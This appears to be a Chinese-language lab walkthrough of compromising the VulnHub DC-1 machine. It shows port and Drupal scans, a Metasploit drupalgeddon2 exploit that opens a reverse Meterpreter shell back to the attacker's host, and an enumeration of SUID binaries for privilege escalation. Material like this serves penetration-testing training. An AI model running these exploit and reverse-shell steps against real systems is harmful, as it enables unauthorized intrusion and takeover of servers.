




# DC: 1

下载地址：https://download.vulnhub.com/dc/DC-1.zip

## 实战演练

发现靶场IP地址：`192.168.32.158`



扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.158                                                                                                                                                                                         2 ⚙
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-21 03:12 EDT
Nmap scan report for 192.168.32.158
Host is up (0.00077s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
56593/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:A5:16:07 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds

```

浏览器访问80端口，发现web框架是`drupal`



使用`droopescan`扫描软件对系统进行扫描，发现潜在的版本

```
┌──(root💀kali)-[/opt/droopescan-master]
└─# docker run  droopescan scan -u  http://192.168.32.158/                                                                                                                                                                               2 ⚙
[+] Site identified as drupal.                                                  
[+] Plugins found:
    ctools http://192.168.32.158/sites/all/modules/ctools/
        http://192.168.32.158/sites/all/modules/ctools/LICENSE.txt
        http://192.168.32.158/sites/all/modules/ctools/API.txt
    views http://192.168.32.158/sites/all/modules/views/
        http://192.168.32.158/sites/all/modules/views/README.txt
        http://192.168.32.158/sites/all/modules/views/LICENSE.txt
    profile http://192.168.32.158/modules/profile/
    php http://192.168.32.158/modules/php/
    image http://192.168.32.158/modules/image/

[+] Themes found:
    seven http://192.168.32.158/themes/seven/
    garland http://192.168.32.158/themes/garland/

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Possible interesting urls found:
    Default admin - http://192.168.32.158/user/login

```

查看可以利用exp



使用MSF进行攻击

```
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.32.158
rhosts => 192.168.32.158
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.32.130:4444 
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated.
[*] Sending stage (39282 bytes) to 192.168.32.158
[*] Meterpreter session 1 opened (192.168.32.130:4444 -> 192.168.32.158:42768) at 2022-06-21 04:13:09 -0400

```

查看可以提权信息

```
meterpreter > shell
Process 3418 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python -c 'import pty; pty.spawn("/bin/sh")'

$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs

$ sudo -l
sudo -l
/bin/sh: 2: sudo: not found

```

使用`find`命令提权成功


